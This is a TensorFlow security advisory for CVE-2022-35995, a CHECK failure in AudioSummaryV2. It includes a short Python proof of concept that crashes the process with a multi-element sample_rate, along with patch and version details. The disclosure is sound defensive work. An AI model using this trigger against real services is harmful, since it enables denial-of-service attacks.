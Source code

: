 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-125.md
## TFSA-2022-125: `CHECK` fail in `AudioSummaryV2`

### CVE Number
CVE-2022-35995

### Impact
When `AudioSummaryV2` receives an input `sample_rate` with more than one element, it gives a `CHECK` fails that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=''
arg_1=tf.random.uniform(shape=(1,1), dtype=tf.float32, maxval=None)
arg_2=tf.random.uniform(shape=(2,1), dtype=tf.float32, maxval=None)
arg_3=3
arg_4=''
tf.raw_ops.AudioSummaryV2(tag=arg_0, tensor=arg_1, sample_rate=arg_2,
                          max_outputs=arg_3, name=arg_4)
```

### Patches
We have patched the issue in GitHub commit [bf6b45244992e2ee543c258e519489659c99fb7f](https://github.com/tensorflow/tensorflow/commit/bf6b45244992e2ee543c258e519489659c99fb7f).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
